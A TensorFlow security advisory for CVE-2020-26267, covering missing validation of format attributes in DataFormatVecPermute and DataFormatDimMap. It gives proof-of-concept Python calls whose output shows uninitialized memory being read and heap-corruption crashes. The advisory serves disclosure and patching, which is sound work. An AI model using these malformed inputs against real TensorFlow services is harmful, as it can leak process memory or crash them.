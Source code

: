 ## TFSA-2020-030: Lack of validation in data format attributes

### CVE Number
CVE-2020-26267

### Impact
The `tf.raw_ops.DataFormatVecPermute` API does not validate the `src_format` and
`dst_format` attributes. [The
code](https://github.com/tensorflow/tensorflow/blob/304b96815324e6a73d046df10df6626d63ac12ad/tensorflow/core/kernels/data_format_ops.cc)
assumes that these two arguments define a permutation of `NHWC`.

However, these assumptions are not checked and this can result in uninitialized
memory accesses, read outside of bounds and even crashes.

```python
>>> import tensorflow as tf
>>> tf.raw_ops.DataFormatVecPermute(x=[1,4], src_format='1234', dst_format='1234')
<tf.Tensor: shape=(2,), dtype=int32, numpy=array([4, 757100143], dtype=int32)>
...
>>> tf.raw_ops.DataFormatVecPermute(x=[1,4], src_format='HHHH', dst_format='WWWW')
<tf.Tensor: shape=(2,), dtype=int32, numpy=array([4, 32701], dtype=int32)>
...
>>> tf.raw_ops.DataFormatVecPermute(x=[1,4], src_format='H', dst_format='W')
<tf.Tensor: shape=(2,), dtype=int32, numpy=array([4, 32701], dtype=int32)>
>>> tf.raw_ops.DataFormatVecPermute(x=[1,2,3,4], 
                                    src_format='1234', dst_format='1253')
<tf.Tensor: shape=(4,), dtype=int32, numpy=array([4, 2, 939037184, 3], dtype=int32)>
...
>>> tf.raw_ops.DataFormatVecPermute(x=[1,2,3,4],
                                    src_format='1234', dst_format='1223')
<tf.Tensor: shape=(4,), dtype=int32, numpy=array([4, 32701, 2, 3], dtype=int32)>
...
>>> tf.raw_ops.DataFormatVecPermute(x=[1,2,3,4],
                                    src_format='1224', dst_format='1423')
<tf.Tensor: shape=(4,), dtype=int32, numpy=array([1, 4, 3, 32701], dtype=int32)>
...
>>> tf.raw_ops.DataFormatVecPermute(x=[1,2,3,4], src_format='1234', dst_format='432')
<tf.Tensor: shape=(4,), dtype=int32, numpy=array([4, 3, 2, 32701], dtype=int32)>
...
>>> tf.raw_ops.DataFormatVecPermute(x=[1,2,3,4],
                                    src_format='12345678', dst_format='87654321')
munmap_chunk(): invalid pointer
Aborted
...
>>> tf.raw_ops.DataFormatVecPermute(x=[[1,5],[2,6],[3,7],[4,8]],           
                                    src_format='12345678', dst_format='87654321')
<tf.Tensor: shape=(4, 2), dtype=int32, numpy=
array([[71364624,        0],
       [71365824,        0],
       [     560,        0],
       [      48,        0]], dtype=int32)>
...
>>> tf.raw_ops.DataFormatVecPermute(x=[[1,5],[2,6],[3,7],[4,8]], 
                                    src_format='12345678', dst_format='87654321')
free(): invalid next size (fast)
Aborted
```

A similar issue occurs in `tf.raw_ops.DataFormatDimMap`, for the same reasons:

```python
>>> tf.raw_ops.DataFormatDimMap(x=[[1,5],[2,6],[3,7],[4,8]], src_format='1234',
>>> dst_format='8765')
<tf.Tensor: shape=(4, 2), dtype=int32, numpy=
array([[1954047348, 1954047348],
       [1852793646, 1852793646],
       [1954047348, 1954047348],
       [1852793632, 1852793632]], dtype=int32)>
```

### Patches

We have patched the issue in GitHub commit
[ebc70b7a592420d3d2f359e4b1694c236b82c7ae](https://github.com/tensorflow/tensorflow/commit/ebc70b7a592420d3d2f359e4b1694c236b82c7ae)
and will release TensorFlow 2.4.0 containing the patch. TensorFlow nightly
packages after this commit will also have the issue resolved.

Since this issue also impacts TF versions before 2.4, we will patch all releases
between 1.15 and 2.3 inclusive.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
